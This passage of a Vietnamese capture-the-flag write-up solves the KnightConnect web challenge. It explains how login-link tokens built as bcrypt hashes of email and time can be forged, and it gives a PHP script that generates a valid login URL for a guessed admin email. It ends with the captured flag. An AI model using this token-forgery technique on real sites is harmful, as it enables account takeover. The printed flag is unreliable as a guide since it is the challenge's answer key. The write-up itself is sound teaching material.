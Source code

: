 ```php
    }

    session(['user_id' => $user->id]);
    session(['is_admin' => $user->is_admin]);

    return redirect()->route('users');
}
```

Ở đây hàm requestLoginUrl sẽ lấy email và time hiện để generate ra một login link bằng mã hóa bcrypt nhưng lại không đưa ra ngoài web

Hàm loginUsingLink sẽ lấy token, time, email để check nếu time tạo ra không quá 1 tiếng, và cũng sẽ check token có trùng với email và time không từ đó sẽ đăng nhập được

Lúc này mình mới nghĩ đến việc tự tạo token và đăng nhập nhưng có một vấn đề là email của admin là gì ? 

Sau khi ngó qua /contact thì mình chắc chắn email của admin trong list này (vì không còn chỗ nào có chứa email trong source nữa cả :vvv)

![image](https://hackmd.io/_uploads/HkyCv1-_yl.png)

Lúc này thì mình brute force hết các email bằng đoạn solve script sau

```php
<?php
function solve() {
    $email = "<email>";
    $expirationTime = 3600;
    $currentTime = time();
    $time = $currentTime;
    $data = $email . '|' . $time;
    $token = password_hash($data, PASSWORD_BCRYPT);
    $baseUrl = "https://kctf2025-knightconnect.knightctf.com/login-link";
    $url = $baseUrl . '?token=' . $token . '&time=' . $time . '&email=' . $email;
    return $url;
}

$link = solve();
echo $link;
```

Brute forece hết thì mình thấy email nomanprodhan@knightconnect.com có chứa flag

![image](https://hackmd.io/_uploads/rJJ1FRguye.png)

Flag: KCTF{_congrat5_KNIGHT_y0U_hack3d_mY_Acc0Un7_}
